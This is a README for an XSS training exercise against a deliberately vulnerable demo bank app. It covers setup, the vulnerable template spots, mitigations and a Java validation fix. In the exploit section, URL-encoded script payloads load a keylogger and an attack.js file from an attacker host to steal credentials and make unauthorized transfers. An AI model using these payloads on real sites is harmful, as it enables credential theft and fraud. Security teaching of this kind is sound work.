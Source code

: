 # Exercise 2 - XXS 

Exercise to help you understand XSS and its mitigations

## Setup and Start Applications

1. check out exercise2 
   * from command line: 'git checkout exercise2'
1. start the v-bank-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./v-bank-app/pom.xml'
1. start the attacker-app
   * woth maven command: 'mvn clean spring-boot:run -f ./attacker-app/pom.xml'
   
## Search for XSS vulnerabilities

Hints:
* This app is a rather traditional multi page application with not much Ajax/Javascript magic. Therefore it is (mostly) susceptible to source based XSS vulnerabilities.
* Look for reflected XSS vulnerabilities where request parameters are directly written to the HTML output (page.tag is template used for all pages)
* Look for stored XSS vulnerabilities where form values are saved without validation/encoding/sanitization and then / or printed without escaping

Present vulnerabilities:
* page.tag template prints a number of requests parameters into the HTML without escaping:
  * *error* : `<div ...>${error}</div>`
  * *info* : `<div ...>${info}</div>` 
  * *message* : `<div ...>${message}</div>`
* *transfer.jsp* and *BankController.doTransfer(...)* save the transfer details without validation/etc. and *history.jsp* displays them w/o escaping

## Exploit to understand
1. Test reflected XSS in login page. You should get an alert pop-up with '1' displayed as the javascript in the request parameter executes: http://vbank.0.0.0.0.xip.io:8080/login?info=%3Cscript%3Ealert(1)%3C/script%3E 
1. Exploit stored XSS in login page:
   * As Alice send Bob the login link with installs a keylogger by exploiting the vulnerability: 
     http://vbank.0.0.0.0.xip.io:8080/login?info=%3Cscript%20src=%22http://attack.0.0.0.0.xip.io:9090/js/keylog.js%22%3E%3C/script%3E 
   * the keylogger send each keystroke to the attack app, the logged keystrokes you can see at http://attack.0.0.0.0.xip.io:9090/viewlog (do not let the browser autofil the form! ...because there are no keystrokes then)
   * This way Alice can steal Bob's login credentials. Even though the keylogger and the log viewer app are by far no perfect
1. Test stored XSS 
   * go to the transfer page and make a transfer to any valid account (i.e. 2-123456-22) with the note '<script>alert(2)</script>'
   * then go to the history page where you should get an alert pop-up with '1' displayed as the javascript entered in the note filed executes.
1. Exploit stored XSS
   * as Alice (alice / h1alice) you know Bob's account number (1-123456-11) and you will transfer him a little amount with the note including a malicious javascript posting a transfer (and overcoming CSRF protection by including the token)
     * The attack script is at http://attack.0.0.0.0.xip.io:9090/js/attack.js; use the method *transfer(formname, fromAccount, toAccount, amount, currency, action)* in the note. 
     * For example: `<script src="http://attack.0.0.0.0.xip.io:9090/js/attack.js"></script><script>transfer("fromBob1","1-123456-11","3-123456-33","1000","CHF")</script>`
      * Please transfer 1 CHF to Bob's account with the above note.
   * As Bob logs in and reviews his transactions the malicious script included in Alice's transfer executes and transfers Alice a larger amount without Bob's consent.
     * login as Bob (bob / h3ll0bob) and go to the history page (by clickin on the account number) 
     * the malicious javascript (XSS) should be loaded from the database and executed
     * if you refresh the page you sould see the transaction
  
## Mitigations:
  * validate input
  * encode text input (i.e. with HTML encoding)
  * sanitize text/HTML input (remove potentially dangerous char sequences)
  * escape output (replace control characters into renderable counterparts that are not interpreted as controls/commands by the parser)
  * use secure content policy headers to control which scripts the browser can execute
  * 

## Fix
* Escape output in *page.tag* and *history.jsp*:
For JSP please use c:out tag; you may explicitly set the escapeXml to true `<c:out value="${variable}" escapeXml=true />`
* Validate/encode input in *BankController.doTransfer(...)*

```java
public class BankController {

    private static final Collection<String> SUPPORTED_CURRENCIES = Arrays.asList("CHF", "USD", "GBP", "EUR");

    private static final String ACCOUNT_NO_PATTERN = "^\\d{1}?-\\d{6}?-\\d{2}?$";

    ...
    @RequestMapping(value = "/doTransfer", method = RequestMethod.POST)
    public ModelAndView doTransfer(@ModelAttribute Transaction transaction, ModelMap model) {
        //only execute transfer if the transaction data is valid
        if (validateTransaction(transaction, model)) {
            //note is free text property, we convert it to HTML encoding so that it is safe(r) to handle 
            String encodedNote = Encode.forHtmlContent(transaction.getNote());
            if (accountService.transfer(transaction.getFromAccountNo(), transaction.getToAccountNo(), transaction.getAmount(),
                    transaction.getCurrency(), encodedNote)) {
                model.addAttribute("info", "Transaction was completed.");
            } else {
                model.addAttribute("info", "Transaction is pending.");
            }
            return new ModelAndView("redirect:/", model);
        } else {
            return new ModelAndView("transfer", model);
        }
    }
    
    ...

    private boolean validateTransaction(Transaction transaction, ModelMap modelMap) {
        boolean valid = true;
        try {
            validateAccountNo(transaction.getFromAccountNo());
        } catch(ValidationException e) {
            modelMap.addAttribute("fromAccountNoMsg", e.getMessage());
            valid = false;
        }
        try {
            validateAccountNo(transaction.getToAccountNo());
        } catch(ValidationException e) {
            modelMap.addAttribute("toAccountNoMsg", e.getMessage());
            valid = false;
        }
        if (!SUPPORTED_CURRENCIES.contains(transaction.getCurrency())) {
            modelMap.addAttribute("currencyMsg", "Currency not supported!");
            valid = false;
        }
        if (transaction.getAmount() == null) {
            modelMap.addAttribute("amountMsg", "Transaction amount is required");
            valid = false;
        }
        return valid;
    }
}
```
  
You may see the solution at https://github.com/vargadan/v-bank/tree/exercise2-solution

More on XSS prevention:
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.md
